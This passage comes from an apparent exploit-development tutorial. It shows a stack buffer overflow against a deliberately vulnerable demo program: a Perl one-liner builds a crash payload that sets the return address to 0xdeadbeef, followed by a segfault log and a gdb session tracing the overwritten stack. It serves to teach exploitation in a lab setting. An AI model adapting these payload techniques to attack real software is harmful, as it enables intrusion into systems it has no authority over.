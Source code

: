 The return address is overwritten with the `0xdeadbeef` value and the program
crash. The crash hits the system logs and the log shows the position of the
stack pointer at this moment.

```text
$ journalctl -f
Oct 02 18:12:50 babylone kernel: vuln_ascii_filt[22754]: segfault at deadbeef ip 00000000deadbeef sp 00000000ffffde40 error 14 in libc-2.28.so[f7dc4000+1d6000]
```

The buffer overflow show here can't past more than 47 bytes (`BOOK_REF_MAX_LEN`-1)
on the stack via the `b_info.book_ref` buffer. In addition, the code of the
`register_book()` function overwrites a part of the injected payload,
caused by the presence of other variables placed after the buffer overflowed.
Below, a quick debugging session of the crash which shows the overwrite of
the payload.

```text
$ perl -e 'print "A"x24 . "\xef\xbe\xad\xde" . "A"x19 . "\n" . "book-comment\n"' > /tmp/payload_crash
$ gdb -q ./vuln_ascii_filter_sample
Reading symbols from ./vuln_ascii_filter_sample...(no debugging symbols found)...done.
(gdb) b *register_book+255
Breakpoint 1 at 0x80492b5
(gdb) b *register_book+412
Breakpoint 2 at 0x8049352
(gdb) set exec-wrapper ./exec_wrapper
(gdb) run < /tmp/payload_crash
Starting program: /home/snake/Desktop/github_perso/PolyAsciiShellGen/demo/bin/vuln_ascii_filter_sample <<< $(cat /tmp/payload_crash)

[demo exec wrapper] Executing ./vuln_ascii_filter_sample

[0xffffdc24] @b_info.comment
[0xffffde24] @b_info.book_ref
[+] Enter a book reference:
[+] Enter a book commentary:

Breakpoint 1, 0x080492b5 in register_book ()
(gdb) x/16xw 0xffffde24
0xffffde24:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffde34:     0x41414141      0x41414141      0xdeadbeef      0x41414141
0xffffde44:     0x41414141      0x41414141      0x41414141      0xf7004141
0xffffde54:     0xf7f9ce24      0x00000000      0xf7ddeb41      0x00000001
(gdb) c
Continuing.
[+] Book registered.

Breakpoint 2, 0x08049352 in register_book ()
(gdb) x/16xw 0xffffde24
0xffffde24:     0x41414141      0x00000002      0x00000001      0x41414141
0xffffde34:     0x41414141      0x41414141      0xdeadbeef      0x41414141
0xffffde44:     0x41414141      0x41414141      0x41414141      0xf7004141
0xffffde54:     0xf7f9ce24      0x00000000      0xf7ddeb41      0x00000001
```
